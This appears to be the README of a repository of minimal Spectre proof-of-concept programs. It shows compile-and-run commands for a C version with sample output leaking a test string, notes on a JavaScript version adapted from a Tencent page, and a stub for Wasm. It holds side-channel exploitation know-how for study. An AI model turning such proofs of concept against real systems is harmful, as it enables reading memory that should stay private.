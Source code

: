 # Minimal Spectre PoCs

## C version

```
$ gcc spectre.c -o spectre
$ ./spectre 16 6
Reading 6 bytes at 16:
offset=16 byte=102 0x66 'f'
offset=17 byte=111 0x6f 'o'
offset=18 byte=111 0x6f 'o'
offset=19 byte=98 0x62 'b'
offset=20 byte=97 0x61 'a'
offset=21 byte=114 0x72 'r'
```
## JavaScript version

Enable `#shared-array-buffer` in `chrome:///flags` under your own risk...

Extracted from: http://xlab.tencent.com/special/spectre/spectre_check.html

Less reliable (no majority vote, less tries) but slightly simplified for my own understanding.

In order to make a real "out-of-bounds" read, `vul_call` should be a native JS array boundary check and the `length` field should be evicted before each test in order to create the window for speculative execution.

## Wasm version?

...
